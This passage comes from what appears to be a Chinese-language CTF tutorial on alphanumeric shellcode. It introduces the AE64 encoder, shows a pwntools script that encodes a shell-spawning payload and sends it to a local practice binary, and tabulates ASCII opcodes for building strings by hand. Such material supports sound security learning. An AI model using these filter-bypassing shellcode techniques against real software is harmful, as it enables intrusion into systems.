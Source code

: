 ```bash
                            [EDX] [EBX] [ESP] [EBP] [ESI] [EDI]

```



## AE64

[AE64](https://github.com/veritas501/ae64)是杭电的一位大师傅写的工具，专用于生成64位的aplha shellcode。下载方式：

```bash
git clone https://github.com/veritas501/ae64.git
```

AE64的优势在于编码时可以更加灵活地使用寄存器，但是生成的alpha shellcode比alpha3要更长一些。

此外AE64是python写的，可以直接在python中调用，以下是官方的栗子：

```python
from pwn import *
from ae64 import AE64

context.log_level = 'debug'
context.arch = 'amd64'

p = process('./example1')

obj = AE64()
sc = obj.encode(asm(shellcraft.sh()),'r13')

p.sendline(sc)

p.interactive()
```

# 手写alpha shellcode

最近做题遇到的，限制比普通ascii shellcode严格所以无法自动生成

详见：[DawgCTF2020-trASCII](http://taqini.space/2020/04/13/DawgCTF-2020-Pwn-trASCII-Writeup/)

这里只贴关于aplha shellcode的字符串生成的小技巧

## 字符串生成小技巧

### 异化法
> 英文写的很蹩脚，但是应该能懂...

There are some techniques about generating string by ascii shellcode:

Ascii shellcode for generating string is as follows:

| **opcode(in ascii)** | **assembly instructions** |
| :------------------: | :-----------------------: |
|        hxxxx         |         push xxxx         |
|        5xxxx         |       xor eax, xxxx       |
|          X           |          pop eax          |
|          H           |          dec eax          |

